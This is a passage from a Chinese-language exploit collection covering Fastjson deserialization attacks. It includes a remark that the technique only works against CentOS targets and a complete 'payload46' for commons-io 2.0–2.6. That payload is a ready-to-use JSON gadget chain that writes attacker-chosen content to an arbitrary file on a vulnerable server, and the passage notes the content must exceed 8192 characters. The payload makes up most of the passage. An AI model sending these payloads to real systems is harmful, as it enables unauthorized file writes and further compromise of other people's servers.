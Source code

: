 ```plain
            },
            "bufLen":1048576
        },
        "protocolVersion":1
    }
}
```

`Windows`下利用会报错，只能在目标是`centos`的情况下使用：

[![](assets/1706254407-f50aa05ac97036a14d45a60692f1f4cb.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021200857762.png)

至于为什么会这样，请参考以下文章，写的很清楚很明白，在此不再赘述：

> [https://www.cnblogs.com/zpchcbd/p/14969606.html](https://www.cnblogs.com/zpchcbd/p/14969606.html)

### 5.1.2 commons-io 2.0~2.6 版本

`payload46`：

需要注意，需要修改下面的`W01fh4ckeraaaaaa...`为自己想要写入的内容，需要注意的是，**长度要大于`8192`，实际写入前`8192`个字符**！具体原因请参考下面的文章，文章里面写的非常清楚：

> [https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg](https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg)

```plain
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.txt","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```